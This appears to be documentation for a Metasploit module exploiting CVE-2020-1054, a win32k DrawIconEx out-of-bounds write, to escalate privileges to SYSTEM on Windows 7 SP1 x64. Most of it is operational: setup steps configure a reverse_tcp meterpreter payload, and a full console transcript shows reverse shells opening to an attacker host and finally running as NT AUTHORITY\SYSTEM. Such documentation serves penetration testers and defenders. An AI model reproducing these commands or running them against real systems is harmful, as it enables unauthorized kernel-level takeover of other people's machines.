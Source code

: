 ## Vulnerable Application

This module exploits CVE-2020-1054, an out of bounds write reachable from DrawIconEx
within win32k. The out of bounds write can be used to overwrite the pvbits of a
SURFOBJ. By utilizing this vulnerability to execute controlled writes to kernel
memory, an attacker can gain arbitrary code execution as the SYSTEM user.

This module has been tested against a fully updated Windows 7 x64 SP1. Offsets
within the exploit code may need to be adjusted to work with other versions of
Windows.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Windows 7 SP1 x64
1. `use exploit/windows/local/cve_2020_1054_drawiconex_lpe`
1. `set session <session>`
1. `set payload windows/x64/meterpreter/reverse_tcp`
1. `set LHOST <LHOST>`
1. `set LPORT 5555`
1. `exploit`
1. Get a SYSTEM session

## Scenarios

### Windows 7 SP1 x64 with win32k.sys Version 6.1.7601.24542

```
$ msfconsole -qx "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.13.37; set lport 4444; set ExitOnSession false; run -j"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
lhost => 192.168.13.37
lport => 4444
ExitOnSession => false
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.13.37:4444
msf6 exploit(multi/handler) > [*] Sending stage (200262 bytes) to 192.168.13.106
[*] Meterpreter session 1 opened (192.168.13.37:4444 -> 192.168.13.106:49216) at 2020-11-26 13:56:39 +0000

msf6 exploit(multi/handler) > use exploit/windows/local/cve_2020_1054_drawiconex_lpe
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2020_1054_drawiconex_lpe) > set LHOST 192.168.13.37
LHOST => 192.168.13.37
msf6 exploit(windows/local/cve_2020_1054_drawiconex_lpe) > set LPORT 5555
LPORT => 5555
msf6 exploit(windows/local/cve_2020_1054_drawiconex_lpe) > set SESSION -1
SESSION => -1
msf6 exploit(windows/local/cve_2020_1054_drawiconex_lpe) > run

[*] Started reverse TCP handler on 192.168.13.37:5555
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing exploit...
[*] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 192.168.13.106
[*] Meterpreter session 2 opened (192.168.13.37:5555 -> 192.168.13.106:49217) at 2020-11-26 13:57:08 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

